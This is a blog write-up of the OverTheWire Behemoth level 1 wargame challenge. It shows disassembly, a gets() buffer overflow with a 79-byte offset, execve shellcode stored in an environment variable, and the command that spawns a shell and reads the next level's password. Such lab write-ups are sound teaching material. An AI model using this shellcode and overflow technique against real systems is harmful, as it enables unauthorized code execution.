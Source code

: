 ```yaml
---
layout:     post
title:      "Overthewire.org - Behemoth 1 -> 2"
subtitle:   "Write-Up"
date:       2017-04-02 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Overthewire
---
```


<p>Today we're going to attack another reverse engineering challenge from <b>Behemoth</b> series, to improve our knowledge in reverse engineering.  </p>

<h1>Challenge</h1>

<p>This one seems to behave quite similar as the <b>behemoth0</b> level, but unluckily we can't view the password like in the previous one. Let's dissasemble the binary. </p>

{% highlight asm %}
(gdb) disas main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   %ebp
   0x0804845e <+1>:	mov    %esp,%ebp
   0x08048460 <+3>:	and    $0xfffffff0,%esp
   0x08048463 <+6>:	sub    $0x60,%esp
   0x08048466 <+9>:	movl   $0x8048530,(%esp)
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    0x1d(%esp),%eax
   0x08048476 <+25>:	mov    %eax,(%esp)
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	movl   $0x804853c,(%esp)
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    $0x0,%eax
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.
{% endhighlight %}

<p>Hmm, we have <b>printf</b>, <b>gets</b> and <b>puts</b> function. We will have to somehow exploit the <b>gets</b> function, by overflowing an buffer and then possibly we will be able to spawn a shell. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ python -c 'print "A"*200' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
{% endhighlight %}

<p>Great, now we have something to focus on. This time, I wanted to find an offset not by brute forcing (also known as guessing), but by running <b>pattern_offset.rb</b> on the value in <b>EIP</b> - which resulted in number <b>79</b>. But how can we store the shellcode, since nothing is actually stored in the binary?  </p>

<p>In one of the <b>Narnia</b> levels, we used enviromental variable as the way to store the shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
{% endhighlight %}

<p>Now we can use a tool like <a href="https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c"><b>getenvaddr</b></a> to get the address of the enviromental variable <b>EGG</b>. </p>

{% highlight bash %}
behemoth1@melinda:/tmp$ mkdir muuuuu
behemoth1@melinda:/tmp$ cd muuuuu
behemoth1@melinda:/tmp/muuuuu$
behemoth1@melinda:/tmp/muuuuu$ touch getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ nano getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ gcc getenvaddr.c -o getenvaddr
behemoth1@melinda:/tmp/muuuuu$ ./getenvaddr EGG /behemoth/behemoth1
EGG will be at 0x7fffffffe8ac
behemoth1@melinda:/tmp/muuuuu$
{% endhighlight %}

<p>Unluckily it didn't seem to work, so I had to come up with another solution, using <b>gdb</b>. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ gdb behemoth1
(gdb) break *0x08048479
Breakpoint 1 at 0x8048479
(gdb) run
Starting program: /games/behemoth/behemoth1

Breakpoint 1, 0x08048479 in main ()
(gdb) x/s *((char **)environ)
0xffffd828:	"XDG_SESSION_ID=478012"
(gdb) x/s *((char **)environ+1)
0xffffd83e:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd84e:	"TERM=xterm-256color"
(gdb) x/s *((char **)environ+3)
0xffffd862:	"SSH_CLIENT=89.64.16.127 33128 22"
(gdb) x/s *((char **)environ+4)
0xffffd883:	"SSH_TTY=/dev/pts/12"
(gdb) x/s *((char **)environ+5)
0xffffd897:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8a0:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
{% endhighlight %}

<p>Great, now we have to only point the address to our shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$  python -c 'print "A"*79+"\xb0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
behemoth1@melinda:/behemoth$ (python -c 'print "A"*79+"\xb0\xd8\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*******
{% endhighlight %}

<p>As you may know, the first try didn't work because the shellcode opened the shell without any arguments, resulting in immediate close. Adding <b>cat - </b> allowed us to keep the shell open, and view the password. </p>

<h1>Conclusion</h1>
<p>Fun as always, and very educational. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
<p>I would also like to point out that if you're thinking about starting journey with CTF challenges <a href="https://picoctf.com/"><b>PicoCTF</b></a> is running now, with a lot of great challenges. Check that out if you're interested!</p>
